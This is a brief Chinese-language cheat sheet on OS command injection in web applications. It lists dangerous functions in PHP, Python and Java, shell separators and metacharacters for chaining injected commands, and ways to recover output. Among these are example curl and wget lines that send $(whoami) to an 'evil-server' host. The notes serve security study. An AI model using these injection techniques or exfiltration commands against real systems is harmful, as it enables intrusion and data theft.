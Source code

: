 `ping` 等指令在网页内部是无法执行的，但是各种中间件多多少少提供了指令，可以通过调用外部 shell 来执行。

部分网站提供给用户的输入框可供拼凑外部指令，绕过后即可执行任意指令。

## 具有威胁的函数

### PHP

- system
- exec
- passthru
- shell_exec
- popen
- proc_open

### Python

- system
- popen
- subprocess.call
- spawn

### Java

- java.lang.Runtime.getRuntime().exec(command)

## 切割指令

- 分号分割
- `||` `&&` `&` 分割
- `|` 管道符
- `\r\n` `%d0%a0` 换行
- 反引号解析
- `$()` 替换

> 这只是一部分，可供转义的 shell 元字符有这么多：
>  ```
>  #&;`,|*?~<>^()[]{}$\
> ```

## 获取输出

- 有回显

- 如果无回显，可以尝试用反弹 shell、DNS/HTTP 带外来接收信息
 
> 
> ```bash
> curl http://evil-server/$(whoami)
> wget http://evil-server/$(whoami)
> ```

- 无回显，无带外时，可以尝试 sleep

